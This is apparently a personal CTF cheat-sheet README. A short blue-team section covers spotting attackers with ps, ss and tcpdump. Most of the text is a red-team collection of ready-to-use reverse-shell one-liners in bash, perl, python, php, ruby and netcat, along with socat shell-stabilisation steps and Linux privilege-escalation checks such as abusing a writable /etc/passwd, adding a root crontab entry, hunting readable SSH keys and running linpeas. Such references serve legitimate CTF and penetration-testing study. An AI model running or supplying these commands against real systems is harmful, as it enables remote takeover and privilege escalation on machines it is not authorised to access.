 # ctf-resources
 Cheatsheet i gathered over my experience with ctf for blue and red teaming. Some stuff can be found on various other online resources (Such as reverse shells)

 
 Offensive and Defensive CTF	=====CheatSheet====

Blue Team:

ps -aef --forest :	View all the running processes in a neat tree way. (Easy to spot reverse shells)

each pid has a folder inside /proc

ls -la /proc/*pid* | grep cwd :	View the current working directory of that process (The attacker)

ss -anp | grep *pid* :	View the listening ports of the specific pid
ss -anpt | grep *ip pattern* : View what ips are connecting

ss -lnpt : 	View all the open ports

tcpdump -i (interface) -s 0 -w (cap or pcap outfile) (not port 22) : capture every activity on the interface which is not port 22 and save it to outfile. (-s 0 to capture the entire packet)





Red Team:

Shell Spawn (Reverse Shells):
	Bash:
		bash -i >& /dev/tcp/{ip}/{port} 0>&1
		sh -i >& /dev/udp/{ip}/{port} 0>&1
	sh:
		0<&196;exec 196<>/dev/tcp/{ip}/{port}; sh <&196 >&196 2>&196
	
	Perl:
		perl -e 'use Socket;$i="{ip}";$p={port};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
	Python:
		export RHOST="{ip}";export RPORT={port};python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
		
		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'		
	
	Php:
		php -r '$sock=fsockopen("{ip}",{port});exec("/bin/sh -i <&3 >&3 2>&3");'
		php -r '$sock=fsockopen("{ip}",{port});shell_exec("/bin/sh -i <&3 >&3 2>&3");'
		php -r '$sock=fsockopen("{ip}",{port});`/bin/sh -i <&3 >&3 2>&3`;'
		php -r '$sock=fsockopen("{ip}",{port});system("/bin/sh -i <&3 >&3 2>&3");'
		php -r '$sock=fsockopen("{ip}",{port});passthru("/bin/sh -i <&3 >&3 2>&3");'
		php -r '$sock=fsockopen("{ip}",{port});popen("/bin/sh -i <&3 >&3 2>&3", "r");'

	Ruby:
		ruby -rsocket -e'f=TCPSocket.open("{ip}",{port}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat:
		nc -e /bin/sh {ip} {port}
		nc -e /bin/bash {ip} {port}
		nc -c bash {ip} {port}
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/f

Post Exploitation:

	Stabilize and upgrade shell
	With Python:
		python(3) -c 'import pty;pty.spawn("/bin/bash");'
		Cntl+Z 
		stty raw -echo;fg
		export TERM=xterm
	With socat:
		On Attacker:
			socat file:`tty`,raw,echo=0 tcp-listen:4444
		On Victim:
			socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(yourip):(port)

	
	With ShellVars (Experimental):
		reset
		export SHELL=bash
		export TERM=xterm
		Cntl+Z
		stty raw -echo;fg
	
	With perl:
		perl -e 'exec "/bin/bash";'
		Cntl+Z
		stty raw -echo;fg
		export TERM=xterm

	With /bin/script:
		/bin/script /bin/bash 
		/bin/script /bin/dash


Privilege Escalation Vectors Linux:

	check for rw permissions on /etc/passwd & /etc/shadow:
		ls -l /etc/shadow
		ls -l /etc/passwd
		if passwd is writable we can write a new password for any user and completely bypass shadow file

	check for rogue suid bit programs:
		find / -type f -perm -u=s 2>/dev/null
		check gtfobins for anything out of the ordinary

	check for rogue guid bit programs:
		find / -type f -perm -g=2 2>/dev/null	

	check for crontab jobs
		cat /etc/crontab
		see if it is possible to overwrite or exploit the program that is scheduled for execution.
		(crontab -e)
	
	check for crontab permissions
		ls -l /etc/crontab
		if write permissions is available we can make a new crontab entry to run as root
		* * * * * root /path/of/program/program.(sh/py/..)
	
	check for getcap programs
		getcap -r 2>/dev/null
		exploit with shared libraries.
		check if gcc is installed otherwise this won't work!

	check for random id_rsa that are public readable on ~/.ssh of each user (even root cause who knows ~)
		ls -l /home/{user}/.ssh

	manual path:
		check for running processes to see if there's something exploitable
			ps aux
			ps -eaf --forest -- for a neat tree view

		check for listening ports.
			you might see nfs here. If you see nfs go to the nfs config files and check if there are any misconfigurations
				Misconfigurations such as no_root_squashes are gold !
	
	Check for doas command (do-as FreeBSD alternative of sudo but it is installable in linux as well):
		run doas. if you get a help prompt then you can continue with cat /usr/local/etc/doas.conf
		if you get something like this:
			permit nopass {user} as {another user} cmd rsync
			that means that you can run the specific command as that user without password.
			run doas -u {another user} command to get the command to execute
			(Similar to sudo -u {user})

	automated path:
		Upload to the box linpeas.sh or linenum.sh, chmod +x on it and run it.
		Check for kernel exploits (At the top), sudo version exploits (Also at the top)
		
		you'll be able to find out most of these from the output of the script.